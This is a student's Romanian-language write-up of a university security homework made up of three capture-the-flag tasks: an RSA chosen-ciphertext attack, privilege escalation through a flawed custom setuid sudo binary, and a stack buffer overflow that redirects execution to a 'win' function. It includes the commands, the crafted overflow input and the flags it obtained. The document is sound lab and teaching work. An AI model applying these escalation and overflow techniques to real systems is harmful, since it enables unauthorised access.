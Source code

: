 # TEMA 1 ISC -> ANCA-MARIA COLACEL

**Tema contine 3 taskuri. Le voi detalia pe fiecare in parte.**

## TASK1 - CRYPTO-ATTACK
In vederea rezolvarii acestui exercitiu a fost necesara completarea scriptului pus la dispozitie in arhiva.
Am inceput cu hinturile puse la dispozitie in cerinta si decodand din base64 KLT vahlxg vbiaxkmxqm tmmtvd am vazut ca se foloseste RSA chosen chiper attack. Celalalt nu era util :)
Am incercat sa decodez message.txt din b64 si am obtinut un json cu 3 campuri, n, e si flag, astfel am format chiper_dash-ul necesar algoritmului in urma aplicarii formulei. M-am gandit ca formatul in care trebuie trimise informatiile la server este tot json astfel ca formez noul json folosind chiper_dash-ul, l-am codat si l-am trimis la server. Salvez raspunsul de la server, folosesc decode-unicode si apoi fac conversie din string in numar pt ca potrivit algoritmului trebuie sa impart la numarul random. Dupa ce fac impartirea practic obtin flagul dar in format numeric asa ca il convertesc in string si il printez. 
### FLAG: SpeishFlag{DCUuhc0WShG69E0H7kF6V2LIxLu7O2gi}

## TASK2 - LINUX ACL
 1) In primul rand ma conectez la userul janitor cu ssh.
    
    ```ssh -i id_rsa janitor@isc2023.1337.cx```

2) Dau urmatoarea comanda si gasesc fisierul hints.txt la calea /var/.hints.txt.

   ```find /var -type f -exec grep -l 'hints' {} +```
   
   Dau cat pe fisier si obtin:

   ```
   Here's more hints:
   - No ideas? Try to ltrace the setuid binaries!
   - Try to find the hidden config directory ;)
   - How does that custom sudo binary match the allowed command? How about its
    arguments?
   - You can add scripts to the same dir as sudo-permitted ones, but you cannot
    delete/modify them due to sticky bit :P

   ```

  3) Dupa ce ma uit prin fisiere observ ca de interes este fisierul robo-sudo acesta avand userul wallybot

   ```
   janitor@fhunt:/usr/local/bin$ ls -la         
   total 48
   drwxrwxr-t+ 1 root     root     4096 Dec  7 16:01 .
   drwxr-xr-x  1 root     root     4096 Oct  3 02:03 ..
   -rwxr-xr-x  1 janitor  janitor    74 Apr 10  2022 janitor-coffee.sh
   -rwxr-xr-x  1 janitor  janitor   228 Apr 10  2022 janitor-vacuum.sh
   -rwsr-xr-x  1 wallybot zboss   17408 Dec  7 16:01 robot-sudo
   -rwxr-xr-x  1 root     root      163 Apr 10  2022 vacuum-control

   ```

Dau strings pe robot-sudo si gasesc 
```

Please supply a command as argument!
Unable to determine current user! Exiting...
Hey, no shell injection please!
Invalid command given!
/.you.are.never/.gonnafindthis/r0b0t3rs.conf

```
deci am gasit fisierul cu permisiuni si din acesta gasesc regulile: 

```
allow wallybot /opt/.wellhidden/0b3y.b0ss
allow janitor /usr/local/bin/vacuum-control

```

Ca sa pot gasi flagul trebuie sa ma folosesc de /usr/local/bin/vacuum-control. 
Ma uit in /opt/.wellhidden/0b3y.b0ss unde gasesc de interes **ad002825749349601baafd654b5406e2Access denied!
I will contact you when I require your cleaning services, janitor!
Congratulations, here's your flag:cat /etc/opt/something/here.bin/.xyzflag**.
M-am gandit sa folosesc tokenul acesta

```
janitor@fhunt:/usr/local/bin$  /opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
I will contact you when I require your cleaning services, janitor!

```

si am primit asta. 

4) Folosesc /usr/local/bin/vacuum-control in /usr/local/bin/vacuum-control-v1 si fac urmatoarea modifacare ca sa pot gasi flagul

```

`janitor@fhunt:/usr/local/bin$ cat vacuum-control-v1 
#!/bin/bash

if [[ $EUID -lt 7000 ]]; then
    echo "ERROR: Access denied!"
    exit 1
fi

/opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
cat /etc/opt/something/here.bin/.xyzflag

the rest of its implementation omitted / not important

janitor@fhunt:/usr/local/bin$ robot-sudo /usr/local/bin/vacuum-control-v1 /opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
Congratulations, here's your flag:
SpeishFlag{RpBElwNQrhVrrYLolrkLrTOXtOQgZJWL}``

```

Am  modificat in script apoi am rulat ca si robot-sudo si am obtinut flagul.

### FLAG: SpeishFlag{RpBElwNQrhVrrYLolrkLrTOXtOQgZJWL}

## TASK3 - BINNARY-EXPLOIT

Ma folosesc de Ghidra ca sa deschid binarul si sa vizualizez codul in c pentru main.c, loop.c si win.c. Din main se intra in loop dar nu se intra si in win, ceea ce eu vreau sa se intample pentru a gasi flagul, astfel ca ceea ce vreau este sa suprascriu adresa de retur din loop ca sa ii dau adresa lui win. Aflu adresa folosind: 
```
objdump -t casino | grep win

```

Vreau sa fac buffer overflow si uitandu-ma cu objdump constat ca am nevoie de 37 de caractere de garbage la care adaug adresa pe care o convertesc din hexa in decimal plus inca un 0 si apoi lucky number si x ca sa intru pe conditia cu flagul.

```
student@uso:~/Desktop/AN_3/ISC/anca_maria.colacel/binary-exploit$ ./casino
Welcome to the Saint Tropez Virtual Casino!
Please enter your name:
anca
Welcome, anca!
Your balance: $655

Please enter the list of numbers you want to roll (write 'x' to stop): 
123 x
You got: 0 out of 1
Remaining balance: $554
Continue? [Y/n]y

Here's your lucky number: 141805

Please enter the list of numbers you want to roll (write 'x' to stop): 
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 134517302 0 141805 x            
You got: 1 out of 40
Remaining balance: $454
Continue? [Y/n]n
KThxBye!
File opening failed!
Note: there is no flag available locally, try it on the remote server!

```

Acesta este outputul obtinut in urma rularii pe local dupa care ma conectez la server folosind comanda

```
netcat  isc2023.1337.cx 10011

```

si pasii sunt aceiasi ca pe local dar la final se obtine flagul.

### FLAG: SpeishFlag{dTWwdiGKa7iyKqPYJG9rpyxMK06WcjM8}

